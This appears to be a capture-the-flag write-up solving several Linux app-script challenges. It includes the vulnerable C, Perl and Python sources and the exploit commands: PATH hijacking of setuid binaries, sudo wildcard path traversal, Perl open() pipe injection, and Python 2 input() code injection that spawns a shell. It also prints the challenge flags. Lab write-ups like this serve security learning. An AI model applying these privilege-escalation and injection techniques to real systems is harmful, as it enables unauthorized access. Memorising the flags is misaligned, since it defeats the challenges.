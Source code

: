 # Bash - System 1
Source 
```C
#include <stdlib.h>
#include <stdio.h>
 
/* gcc -m32 -o ch11 ch11.c */
 
int main(void) 
{
	system("ls /challenge/app-script/ch11/.passwd"); 
	return 0;
}
```
Solve
```shell
app-script-ch11@challenge02:/tmp/tmp1$ mkdir /tmp/tmp1/
mkdir: cannot create directory ‘/tmp/tmp1/’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ export PATH="/tmp/tmp1:${PATH}"
app-script-ch11@challenge02:/tmp/tmp1$ ln -s /bin/cat ls
ln: failed to create symbolic link ‘ls’: File exists
app-script-ch11@challenge02:/tmp/tmp1$ ~/ch11
!oPe96a/.s8d5
```

Flag is : ```!oPe96a/.s8d5```

# sudo - weak configuration

by using the command : `sudo -l` We can see our rights in the sudo world. And as the command says :
```assembly
app-script-ch1@challenge02:~$ sudo -l
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/ch1/*
```
’*’ being a good soldier, it can be replaced by everything... even ’../’
So, to get the file /shell1cracked/.flag we can use :
```assembly
app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
b3_c4r3full_w1th_sud0
```
Flag is : ```b3_c4r3full_w1th_sud0```

# Bash - System 2
Source:

```C
#include <stdlib.h>
#include <stdio.h>
 
int main(){
	system("ls -lA /challenge/app-script/ch12/.passwd");
	return 0;
}
```
Solve 0x1:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd
app-script-ch12@challenge02:~$ cp /bin/nano /tmp/pwnd/ls
app-script-ch12@challenge02:~$ export PATH=/tmp/pwnd:$PATH
app-script-ch12@challenge02:~$ ./ch12
```
Solve 0x2:
```assembly
app-script-ch12@challenge02:~$ mkdir /tmp/pwnd1 ; cd /tmp/pwnd1
app-script-ch12@challenge02:/tmp/pwnd1$ nano pwn.c
app-script-ch12@challenge02:/tmp/pwnd1$ g++ pwn.c -o pwn
app-script-ch12@challenge02:/tmp/pwnd1$ export PATH=/tmp/pwnd1:$PATH
app-script-ch12@challenge02:/tmp/pwnd1$ mv pwn ls
app-script-ch12@challenge02:/tmp/pwnd1$ ~/ch12 
8a95eDS/*e_T#
```
Flag is : ```8a95eDS/*e_T#```

# Perl - Command injection
Source :

```perl
#!/usr/bin/perl

delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
$ENV{'PATH'}='/bin:/usr/bin';

use strict;
use warnings;

main();

sub main {
    my ($file, $line) = @_;

    menu();
    prompt();

    while((my $file = <STDIN>)) {
        chomp $file;

        process_file($file);

        prompt();
    }
}

sub prompt {
    local $| = 1;
    print ">>> ";
}
sub menu {
    print "*************************\n";
    print "* Stat File Service    *\n";
    print "*************************\n";
}

sub check_read_access {
    my $f = shift;

    if(-f $f) {
        my $filemode = (stat($f))[2];

        return ($filemode & 4);
    }

    return 0;
}

sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);

    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }


    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }

    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";

    close F;
}
```
Solve:
```assembly
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
PerlCanDoBetterThanYouThink
```
Flag is : ```PerlCanDoBetterThanYouThink```

Source :
```python
#!/usr/bin/python2
 
import sys
 
def youLose():
    print "Try again ;-)"
    sys.exit(1)
 
 
try:
    p = input("Please enter password : ")
except:
    youLose()
 
 
with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```
Now we know that the flag located in .passwd is just a set of numbers and if your input matched this numbers it will print ```Well done ! You can validate with this password !``` so i first tryed to buruteforce
```bash
#!/bin/bash

i=0;
while true; do
   echo 'echo '"$i"' | /challenge/app-script/ch6/setuid-wrapper'
   if [[ $(echo $i | /challenge/app-script/ch6/setuid-wrapper) =~ "Well done " ]] ; then
       echo "$i is the password";
        break;
   fi
   let i++
done

```
but it seemed like it will take forever so it exploited it.
```assembly
app-script-ch6@challenge02:~$ ./setuid-wrapper 
Please enter password : __import__("os").execl("/bin/sh","sh")
$ cat .passwd
13373439872909134298363103573901
$ 
```
Flag is ```13373439872909134298363103573901```
